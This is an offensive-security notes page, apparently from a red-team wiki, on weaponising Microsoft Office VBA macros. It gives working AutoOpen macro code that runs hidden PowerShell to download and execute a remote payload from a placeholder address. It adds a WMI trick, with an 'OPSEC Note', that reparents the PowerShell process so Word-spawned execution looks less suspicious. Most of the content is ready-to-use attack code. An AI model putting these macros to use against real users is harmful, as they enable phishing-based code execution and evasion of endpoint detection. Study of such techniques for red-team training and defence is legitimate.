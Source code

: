 ```yaml
---
title: Microsoft Office Macros
category: Client Side Attacks
order: 2
---
```


# Visual Basic for Applications (VBA) Macro

VBA is an implementation of Visual Basic that is very widely used with Microsoft Office applications - often used to enhance or augment functionality in Word and Excel for data processing etc. 

VBA is not all that different from VBScript, so it's not too difficult to use the `wscript.shell object`.


> **Note**: The file must be saved in `.doc` format due inside `.docx` files cannot save macros.

```
Sub AutoOpen()

  Dim Shell As Object
  Set Shell = CreateObject("wscript.shell")
  Shell.Run "calc"

End Sub
```

![Macro](/hackingnotes/images/macro-calc.png)

> **Note**: To force the macro to trigger automatically when the document is opened, use the name`AutoOpen()`.

## Executing a Powershell Payload

```
Sub AutoOpen()

  Dim Shell As Object
  Set Shell = CreateObject("wscript.shell")
  shell.run "C:\Windows\sysnative\WindowsPowerShell\v1.0\powershell.exe -nop -w hidden -c ""IEX ((new-object net.webclient).downloadstring('http://10.10.10.10/a'))"""

End Sub
```

# Changing Prent-Child Relationship

When a powershell is executed from a word macro a child `powershell.exe` process is created from `winword.exe` (MS Word as a Parent). This isn't normal behaviour and highly suspicious.

With `wmi` we can create another parent process and append the powershell to wmi and not to the MS Word.


```VB
Dim proc As Object
Set proc = GetObject("winmgmts:\\.\root\cimv2:Win32_Process")
proc.Create "powershell"
```


> **OPSEC Note**: In that case, powershell will be a child of `WmiPrvSE.exe` rather than MS Word.